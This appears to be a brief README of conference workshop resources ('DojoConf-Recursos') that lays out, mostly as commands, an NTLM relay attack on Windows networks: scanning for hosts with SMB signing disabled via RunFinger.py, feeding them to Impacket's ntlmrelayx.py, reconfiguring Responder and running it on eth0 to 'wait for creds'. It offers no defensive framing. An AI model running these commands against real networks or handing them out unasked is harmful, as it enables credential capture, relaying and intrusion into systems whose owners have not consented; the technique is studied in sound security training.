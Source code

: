 # DojoConf-Recursos

comando de Busqueda herramientas:
find /var/log/ -name "error.log" -print

1. Identify network systems that do not require SMB message validation
    * Run python  RunFinger.py -i IP_Range to detect machine with SMB signing:disabled.
    * Configure Impacket’s NTLMrelayx to target those systems
    * echo "IP"  >> targets.txt
    * ntlmrelayx.py -tf targets.txt --smb2support
2. Disable SMB and HTTP response poisoning in Responder and launch
    * cd /usr/share/responder
    * gedit Responder.conf
3. Open the Responder.conf file and set the value of SMB and HTTP to Off
    * Responder.py -I eth0 -rdw
Wait for creds

